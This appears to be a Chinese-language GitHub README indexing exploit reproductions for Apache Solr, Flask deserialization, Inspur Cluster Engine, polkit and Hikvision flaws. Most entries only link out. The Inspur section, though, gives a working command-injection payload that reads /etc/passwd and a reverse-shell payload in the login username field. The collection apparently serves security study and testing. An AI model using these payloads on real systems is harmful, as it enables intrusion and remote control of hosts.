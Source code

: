 # *Collection of verified vulnerabilities*

## 一、[*Apache Solr Rce cve-2019-0193*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheSolr)

<details>
<summary><em>点击以展开 *Apache Solr Rce cve-2019-0193介绍 </em></summary>

- 有回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%9C%89%E5%9B%9E%E6%98%BEpayload)
- 无回显：
    - 找到利用核心 -> payload写入 -> RCE
    - [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E6%97%A0%E5%9B%9E%E6%98%BEpayload)

### # 1x01 恶意xml引用
引用地址`(https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/CoVV/ApacheSolr/solr.xml)`

### # 1x02 两者payload对比

- [*点击以进一步了解*](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheSolr/README.MD#-%E5%8C%BA%E5%88%AB)

### 参考

[漏洞分析 - Apache Solr远程代码执行漏洞(CVE-2019-0193)](https://xz.aliyun.com/t/5965)

</details>

## 二、[*Easy Flask - Python 反序列化*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Flask)

<details>
<summary><em>点击以展开 *Easy Flask - Python 反序列化介绍 </em></summary>

### POC复现

- [*点击以进一步了解POC复现*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Flask#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%A4%8D%E7%8E%B0)

</details>

## 三、[*Inspur Cluster Engine v4 RCE*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Inspur%20Cluster%20Engine%20v4)

<details>
<summary><em>点击以展开 *Inspur Cluster Engine v4 RCE介绍 </em></summary>

- Java web 认证缺陷
- 传入参数可控导致远程代码执行

### POC复现

```
# POC测试(出现 root:x:0:0 则存在漏洞)

op=login&username=peiqi`$(cat /etc/passwd)`
{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user peiqi does not exist\nerror:1\n"}

# 反弹shell
op=login&username=peiqi`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```

</details>

## 四、[*polkit-CVE-2021-3560*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/polkit-CVE-2021-3560)

<details>
<summary><em>点击以展开 *polkit-CVE-2021-3560介绍 </em></summary>

> 该漏洞存在于系统服务Polkit中，因为Polkit被Systemd所调用，因此默认安装了Systemd的发行版都会使用Polkit。
> 该漏洞成因是执行dbus-send命令后在认证完成前强制终止引发错误，而Polkit未正确处理错误导致允许无特权的用户添加一个sudo用户。

| 影响 OS | 参考链接 |
---- | ----
RHEL 8						|[Link](https://access.redhat.com/security/cve/CVE-2021-3560)
Fedora 21 (or later)		|[Link](https://bugzilla.redhat.com/show_bug.cgi?id=1967424)
Debian testing (“bullseye”)	|[Link](https://security-tracker.debian.org/tracker/CVE-2021-3560)
Ubuntu 20.04				|[Link](https://ubuntu.com/security/CVE-2021-3560)

</details>

## 五、[*Hikvision Unauth*](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth)

<details>
<summary><em>点击以展开 *Hikvision Unauth介绍 </em></summary>

- 海康威视固件未授权下载及解密分析：
	- [相关博客](https://about.sentrylab.cn/help/Hikvision-BinConfigurationFiles-decrypter/)

</details>

## 六、Struts2 待完成
